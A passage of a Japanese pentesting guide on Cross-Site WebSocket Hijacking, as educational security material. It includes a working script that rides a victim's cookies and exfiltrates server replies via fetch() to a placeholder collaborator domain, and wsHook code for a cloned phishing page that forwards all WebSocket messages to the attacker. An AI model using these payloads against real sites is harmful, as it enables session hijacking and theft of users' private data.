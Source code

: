 これは、**WebSocketハンドシェイク**リクエストがセッション管理に**HTTPクッキーのみ**を使用し、**CSRFトークンや他の予測不可能な値を含まない**場合に発生します。\
攻撃者は、**自分のドメイン上に悪意のあるウェブページ**を作成し、脆弱なアプリケーションに**クロスサイトWebSocket接続**を確立します。アプリケーションは、**被害者ユーザーのセッションのコンテキスト**で接続を処理します。

### 簡単な攻撃

**websocket**接続を**確立**する際に、**クッキー**が**サーバーに送信**されることに注意してください。**サーバー**は、**送信されたクッキーに基づいて各特定のユーザーを彼のwebsocketセッションに関連付ける**かもしれません。

その後、**例えば**、**websocket**サーバーがユーザーの会話の履歴を返す場合、メッセージに "**READY**" が送信されると、**単純なXSS**が接続を確立します（**クッキー**は自動的に送信され、被害者ユーザーを認証します）。 "**READY**" を**送信**することで、会話の履歴を**取得**することができます。
```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
//Exfiltrate the confidential information to attackers server
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
### クロスオリジン + 異なるサブドメインのクッキー

このブログ記事[https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/)では、攻撃者がウェブソケット通信が行われているドメインの**サブドメイン**で**任意のJavaScriptを実行**することに成功しました。**サブドメイン**であるため、**クッキー**が**送信**され、**WebsocketがOriginを正しくチェックしなかった**ため、それと通信して**トークンを盗む**ことが可能でした。

### ユーザーからのデータの盗み出し

なりすましを行いたいウェブアプリケーション（たとえば.htmlファイル）をコピーし、ウェブソケット通信が行われているスクリプト内に次のコードを追加します：
```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "client_msg?m="+data, true);
xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
xhttp.send();
return messageEvent;
}
```
次に、[https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) から `wsHook.js` ファイルをダウンロードし、**ウェブファイルが保存されているフォルダに保存**してください。\
ウェブアプリケーションを公開し、ユーザーがそれに接続することで、WebSocketを介して送受信されるメッセージを盗むことができます。
```javascript
sudo python3 -m http.server 80
```
## 他の脆弱性
